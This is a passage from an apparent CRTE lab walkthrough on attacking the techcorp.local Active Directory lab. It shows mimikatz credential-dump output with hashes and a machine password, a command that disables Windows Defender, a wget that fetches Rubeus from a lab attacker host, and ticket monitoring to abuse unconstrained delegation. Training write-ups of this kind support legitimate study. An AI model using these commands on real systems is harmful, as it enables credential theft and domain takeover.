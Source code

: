 ```powershell

<snip>

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 41921 (00000000:0000a3c1)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 12/27/2022 2:39:04 AM
SID               : S-1-5-90-0-1
        msv :
         [00000003] Primary
         * Username : US-WEB$
         * Domain   : US
         * NTLM     : 892ca1e8d4343c652646b59b51779929
         * SHA1     : 29d0e9804b830218aa1f7a1460874a29471cac60
        tspkg :
        wdigest :
         * Username : US-WEB$
         * Domain   : US
         * Password : (null)
        kerberos :
         * Username : US-WEB$
         * Domain   : us.techcorp.local
         * Password : 0I7.p^^to%AE? sq!.[\!lUUaBYiU^Ew-t^^@@&'Sp!ykctIPCm,<n2;rR$*y1ThkKCMjzP 7zmH'V)CTjF9@;R<nU ^Cu^ -STMQ0W_Q]_fA(6?;oUX$%>?
        ssp :
        credman :

<snip>
```
# 12. Permissions of `us-web$`
- From [[3. CRTE/2. Lab Walkthrough/1st Forest (techcorp.local)/1. us.techcorp.local/1. Domain Enumeration]] we discovered that `US-WEB` has KUD privileges. We can abuse this to escalate our privileges to DA.
- We will transfer **Rubeus** to the server that is configured for KUD in order to monitor for tickets.
- After that, we will coerce the DC to authenticate to the server set for KUD in order to capture the machine account's ticket.
- On `US-WEB`:
```powershell
PS C:\Auditor> winrs -r:us-web.us.techcorp.local powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\webmaster> Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableRealtimeMonitoring $true
cPS C:\Users\webmaster>cd C:\Windows\Tasks
cd C:\Windows\Tasks
PS C:\Windows\Tasks> wget http://192.168.100.57/Rubeus.exe -O Rubeus.exe
wget http://192.168.100.57/Rubeus.exe -O Rubeus.exe
PS C:\Windows\Tasks> .\Rubeus.exe monitor /interval:5 /targetuser:us-dc$
.\Rubeus.exe monitor /interval:5 /targetuser:us-dc$

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/
```